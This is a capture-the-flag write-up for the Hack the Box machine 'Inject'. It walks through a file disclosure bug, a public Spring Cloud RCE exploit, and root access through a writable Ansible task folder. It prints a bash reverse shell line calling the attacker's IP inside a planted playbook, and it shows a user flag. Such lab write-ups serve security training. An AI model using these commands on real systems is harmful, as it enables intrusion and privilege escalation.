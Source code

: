 ```yaml
---
title: Inject
categories: [HTB]
tags: complete retired easy linux
img_path: /assets/img/HTB/inject/
---
```


![inject.card](Inject.png)

> Inject is an easy Linux machine from Hack the Box. Here is the tldr;
>
> * There is a website running on port `8080` with a page for uploading images. There is a local file disclosure vulnerability that allows us to discover a version of Spring Cloud along with credentials for the user `phil`.
> * We're able to take advantage of that vulnerability to get a reverse shell as the user `frank`.  We're able to `su` to phil with the credentials we found earlier.
> * By running pspy, we discover that there is an Ansible Playbooks automation running as root. By creating a new yaml file in `/opt/automation/tasks` we're able to get a reverse shell as root.
{: .prompt-tip }

## Enumeration

### nmap

```
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/inject]
└─$ nmap 10.129.35.51                              
[sudo] password for dimondsec: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-11 21:36 MST
Nmap scan report for 10.129.35.51
Host is up (0.66s latency).
Not shown: 933 closed tcp ports (reset), 65 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 6.38 seconds
```

We've only got two ports open, `22` and `8080`. We likely won't find anything with port 22 so let's head over to 8080 in a broswer.

We've got a website, many of the links don't do anything. However, it looks like there may be a site under construction (maybe a subdomain??) We also have an upload page that will only accept images. If we upload an image, it looks like there is an LFI vulnerability in the URL.

To take advatage of this, we can visit the file we just uploaded, intercept the request in burpsuite, and replace the image path with the file we want to see. If we pull up the `/etc/passwd`, we can see that we have three users that can login, `root`, `frank`, and `phil`.

### Local file disclosure

![LFI in burpsuite](lfi.png)

```
root:x:0:0:root:/root:/bin/bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```

Beyond being able to view individual files, if we put in a  directory we can also see the files in that directory. If we take a look in Frank's home directory, there is a folder `.m2` that stands out, in there we find a `settings.xml` file. In that file we find some credentials for the user phil. It doesn't work with SSH, but they will come in handy later.

In the home directory for phil, we can see the user.txt file with our flag, but don't have permission to access it.

![settings file](frank.settings.xml.png)

Next up, let's see if we can find out more information about the web application that is running by checking out `/var/www/`. In there we find a directory called `WebApp` with some more files and directories.

![webapp directory listing](webapp.dir.png)

If we open the `pom.xml` (a common configuration file), we find that it is running a vulnerable version of `Spring Cloud` (3.2.2). 

![pom file](springcloudframework.png)

There is an exploit [here](https://github.com/randallbanner/Spring-Cloud-Function-Vulnerability-CVE-2022-22963-RCE) for the version that's running that gives us remote code execution. I would encourage you to read more about how it works, but basically it creates a shell.sh in your current working directory, starts a basic web server, sends it to our target, makes the shell file executable, and then runs it to give us a reverse shell. It does all of this by sending commands in a specific header in our requests.

![screenshot of request header in expoit script](exploit.command.example.png)

In this request, we can see that it is pinging our attacker machine once to test the connection before continuing on.

Before we can run the exploit, we need to update our listening IP and port, as well as our target IP.

![updaing the script](update.exploit.png)

## User

Before we run our exploit, let's make sure we have a listener open on the port we specified in the script (for me that was 9001). Then let's launch the script and we have a shell a frank!

![we have a shell](wehaveashell.png)

Let's upgrade our shell a little to make it more stable with `$ python3 -c 'import pty;pty.spawn("/bin/bash")'`.

We know our user flag isn't readable by frank, but it is by phil. We found a password used by phil earlier, let's see if we can swith users from frank to phil.

It work! We can now access our user.txt flag.

Now we have a shell with `frank`! From our enumeration earlier, we know that `user.txt` is owned by `phil`, and we already have his password from a file we found a while ago. So `su` to phil and we have our flag.

```shell
phil@inject:~$ cat user.txt
cat user.txt
6a6254c04b6c0d83e57e13a22f51832b
```

Now that we have user, let's run pspy and see if we can see anything of interest that might be running. Start by putting the li`pspy64` script in a www folder and starting up a basic web server. Then on our shell, we use wget to download the script and make it executable.

### Ansible Playbook

When we launch it and watch for a while, we see that ansible playbook is running.

![asbibe in pspy](ansible.pspy64.png)

Since there is an automated task running with Ansible Playbooks running as root, and we have write access to `/opt/automation/tasks` folder (see post about privesc with ansible [here](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)), we place a new `.yml` file similar to the existing file in the tasks directory with a command that will be run next time the automation is triggered and give us a shell as root.

Here is what our file  will look like:

```yaml
- hosts: localhost
  tasks:
    - name: Nothing to see here
      ansible.builtin.shell: bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'
```

## Root

To make things easier (since I don't have a very stable shell), I created the new yaml file on my attacker machine, used wget to download it onto the target, then copied it into the `/opt/automation/tasks` folder. Make sure to have a listener open and once the ansible automation runs you will have a shell as root!

![we have root](root.png)









